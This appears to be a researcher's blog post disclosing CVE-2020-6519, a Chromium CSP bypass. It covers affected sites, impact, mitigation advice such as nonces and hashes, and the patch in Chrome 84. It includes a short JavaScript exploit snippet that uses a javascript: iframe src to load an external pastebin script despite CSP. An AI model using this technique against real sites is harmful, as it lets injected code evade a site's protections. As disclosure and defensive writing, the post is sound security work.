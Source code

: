 ```yaml
---
enabled: true
layout: post
tags: CVEs,Vulnerabilities,Security,JavaScript,Research,Published,Posts
title: CVE-2020-6519 - Chromium 83 Zero Day Full CSP Bypass Cross Platforms
url: https://weizman.github.io/
date: 02/09/2020
description: Chromium 83 Zero Day Full CSP Bypass Cross Platforms
keywords: chromium, exploit, vulnerability, CSP, javascript, web, security
---
```


> tl;dr - This is the story of how I found and helped **Google** [patch](https://chromereleases.googleblog.com/2020/07/stable-channel-update-for-desktop.html#:\~:text=Gal%20Weizman%20(@WeizmanGal)%20of%20PerimeterX) a [**vulnerability in Chrome browser**](https://nvd.nist.gov/vuln/detail/CVE-2020-6519) that could have allowed attackers to [**fully bypass CSP rules**](https://crbug.com/1064676) since Chrome 73 (March 2019), and how researching it taught me that today's CSP mechanism design is the reason **no one uses CSP correctly and therefore many of the biggest websites in the world are exposed to this vulnerability**.

### Bypassing CSP completely can be very bad..

I was extremely surprised when I discovered this vulnerability affecting [Chromium](https://www.chromium.org/) based browsers  - Chrome, Opera, Edge -  on Windows, Mac and Android that allowed attackers to fully bypass CSP rules on Chrome versions 73 (March 2019) through 83 (July 2020).

To better understand the magnitude of this vulnerability - the potentially impacted users are in the billions, with Chrome having over two billion users, and more than 65% of the browser market on one hand, and some of the most popular sites on the web being vulnerable to this CVE on the other hand.

Vulnerable sites included [Facebook](https://www.facebook.com/), [WellsFargo](https://www.wellsfargo.com/), [Gmail](https://gmail.com/) , [Zoom](https://zoom.us/), [Tiktok](https://www.tiktok.com/en/), [Instagram](https://instagram.com/), [WhatsApp](https://whatsapp.com/), [Investopedia](https://www.investopedia.com/), [ESPN](https://www.espn.com/), [Roblox](https://www.roblox.com/), [Indeed](https://www.indeed.com/), [Blogger](https://www.blogger.com/), [Quora](https://www.quora.com/) and more.

So what was the vulnerability exactly?

### Break CSP Down Completely With A One-Liner

You are more than welcome to check out the [POC files as disclosed to Google Chrome project](https://github.com/weizman/CVE-2020-6519/tree/master/POC) originally if you are interested in the exploit and in running it, but the following sum up should cover it mostly:

Normally, an attempt to run the following JS code will be blocked by the browser when the site’s CSP setting disallows the source or actions performed by the script:

```javascript
/* this is a script that pops an alert message */
top._CVE_URL = 'https://pastebin.com/raw/dw5cWGK6';

/* this call will fail due to CSP */
var s = document.createElement("script"); s.src = top._CVE_URL; document.body.appendChild(s);
```

However, running the same JS code via `javascript:` src of an iframe will bypass completely the configured CSP on that website:

```javascript
/* this is a script that pops an alert message */
top._CVE_URL = 'https://pastebin.com/raw/dw5cWGK6';

/* this call will succeed although CSP */
document.querySelector('DIV').innerHTML="<iframe src='javascript:var s = document.createElement(\"script\");s.src = \"https://pastebin.com/raw/dw5cWGK6\";document.body.appendChild(s);'></iframe>";
```

**Simple yet very powerful!** Billions of browsers on any OS would have blindly allowed CSP privilege escalation for any unwanted code in a website:

![5](/content/img/5a.gif)

It is worth mentioning that some sites protected by CSP, like [Twitter](http://twitter.com/), [Github](http://github.com/), [LinkedIn](https://www.linkedin.com/), [Google Play Store](https://play.google.com), [Yahoo's Login Page](https://login.yahoo.com), [PayPal](https://paypal.com) and [Yandex](https://yandex.ru) were not vulnerable to [CVE-2020-6519](https://github.com/weizman/CVE-2020-6519/), as these implemented CSP using [nonce](https://content-security-policy.com/nonce/) or [hash](https://content-security-policy.com/hash/) and by that added a layer of security that is implemented on the server side as well as the client side.

### What is the potential impact?

[Content Security Policy (CSP)](https://content-security-policy.com/) is basically a set of rules set by the website that the browser's role here is to respect and enforce in the name of the website.

With these rules the website can ask the browser to block/allow specific request calls, specific types of javascript code execution and more, thus ensuring stronger security for site visitors and protecting them from potential injected malicious scripts or [cross-site-scripting (XSS)](https://owasp.org/www-community/attacks/xss/).

Having a vulnerability in Chrome’s CSP enforcement mechanism doesn’t directly mean that sites are breached, as the attackers also need to manage to get the malicious script called from the site (which is why the vulnerability was classified as medium severity).

However, having a vulnerability in a security mechanism that is trusted by websites to enforce stricter policies on 3rd party scripts has vast implications, as some of the largest sites rely on CSP to enforce their policy, and may give them the comfort of approving 3rd party scripts of vendors and partners thinking they are safe with a strict policy enforced.

Besides the sites mentioned above (representing more than 2.5 billion users), it is safe to estimate that thousands of websites across industries, including e-commerce, banking, telecommunications, government, and utilities were left unprotected from a scenario where hackers managed to inject malicious code into them.

### Why should we be worried about a vulnerability that is exploitable only when an attacker gained code execution on a website? In that case, bypassing CSP wouldn't make much of a difference..

I disagree.

It is extremely risky when a vulnerability is found in the security mechanism that prevents such breaches, as the impacted sites actively relied on CSP to provide the protection tier.

About 6 months ago I found a [persistent XSS in WhatsApp Web/Desktop applications and demonstrated the severity of this vulnerability](https://weizman.github.io/page-whatsapp-vuln/).

Part of the reason the severity was so high is because their CSP was misconfigured in such a way that allowed me to inject scripts that could communicate with any domain I wanted.

This is why. Finding ways to execute code on a website you don't control is indeed extremely difficult.
But once someone has, you'd wish your website had another layer of security that might stop them from causing real damage.

You can read all about this research right [here](https://weizman.github.io/page-whatsapp-vuln/).

### Test It Yourself

I was easily able to test all of those websites by creating a [simple script](https://github.com/weizman/CVE-2020-6519/blob/master/CVE-2020-6519-TEST-IT-YOURSELF.js) that when executed via the devtools console will let you know immediately whether the current browser/website is vulnerable to [CVE-2020-6519](https://nvd.nist.gov/vuln/detail/CVE-2020-6519) due to misconfigured CSP/Old Chrome or not. It does that by trying to load an external js script from [https://pastebin.com/raw/XpHsfXJQ](https://pastebin.com/raw/XpHsfXJQ) both normally and by trying to load the exploit as well:

> _Browser and Website are vulnerable_

![2](/content/img/2a.jpg)

> _Browser is vulnerable but Website is not_

![1](/content/img/1a.jpg)

> _Browser is not vulnerable_

![4](/content/img/4a.jpg)

### Advice For Website Owners And Users

**Ensure your CSP policies are well defined**

Consider adding additional layers of security such as [nonce](https://content-security-policy.com/nonce/)s or [hash](https://content-security-policy.com/hash/)s.
This will require some server-side implementation.

**CSP alone is not enough for most websites so, consider adding additional layers of security**

Consider JavaScript-based detection and monitoring of [Shadow Code for real-time mitigation of web page code injection](https://www.perimeterx.com/tech-blog/2020/shadow-code-what-is-it-and-why-should-you-care/).

**Make sure your Chrome browser version is 84 or higher.**

### About The Patch

This vulnerability was [patched](https://crbug.com/1064676) by the Chromium project on Chrome 84, was tagged as medium ([CVSS 6.5](https://nvd.nist.gov/vuln-metrics/cvss/v3-calculator?name=CVE-2020-6519&vector=AV:N/AC:L/PR:N/UI:R/S:U/C:N/I:H/A:N&version=3.1&source=NIST)) risk and was granted $3,000.
